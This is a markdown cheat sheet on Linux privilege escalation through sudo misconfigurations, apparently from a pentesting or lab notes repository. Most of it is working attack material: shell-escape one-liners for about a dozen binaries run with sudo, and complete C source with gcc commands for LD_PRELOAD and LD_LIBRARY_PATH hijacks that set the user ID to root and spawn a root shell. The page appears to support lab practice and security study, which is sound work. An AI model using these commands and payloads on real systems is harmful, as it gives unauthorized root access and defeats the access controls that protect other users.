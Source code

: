 # GTFObins

- `sudo -l`

## sudo - shell escape sequences
-  If you have the permissions to run the following commands as root, then this is how you can gain a root shell.
- iftop -  `sudo iftop; !sh`
- find - `sudo find . -exec /bin/sh \; -quit`
- nano - `sudo nano; ^R ^X reset;sh 1>&0 2>&0`
- vim - `sudo vim; :!sh`
- man - `sudo man man; :!sh` or `sudo man man; :!/bin/bash`
- awk - `sudo awk 'BEGIN {system("/bin/sh")}'`
- less - `sudo less /etc/profile; :!sh`
- ftp - `sudo ftp; !sh`
- nmap - `sudo nmap --interactive; !sh`
- more - `TERM=sudo more /etc/profile; !/bin/bash`

## sudo - environmental variables
- sudo can be configured to inherit certain environmental variables from the user's environment.
- Type in `sudo -l` & check for `env_keep` options
```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ 

```
- `LD_PRELOAD` loads a shared object before any others when a program is run.
- `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.
- create a shared object using the code at `/home/user/tools/sudo/preload.c`
- creating a shared object command - `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`
- preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
- `sudo LD_PRELOAD=/tmp/preload.so nmap`
- Run `ldd apache2` to see which shared libraries are used by the program.
```
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffb99dd000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f104cc50000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f104ca2c000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f104c7f2000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f104c5d6000)
        libc.so.6 => /lib/libc.so.6 (0x00007f104c26a000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f104c065000)
        librt.so.1 => /lib/librt.so.1 (0x00007f104be5d000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f104bc26000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f104ba21000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f104b7f9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f104d10d000)
user@debian:~$ 
```
- create a shared object mimicking one of the above shared listed libraries using the code at `/home/user/tools/sudo/library_path.c`
- library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
- `gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`
- And now launch the apache2 with sudo as follows, `sudo LD_LIBRARY_PATH=/tmp apache2`, and this must give you a root shell 


## References
- [tools](./tools)

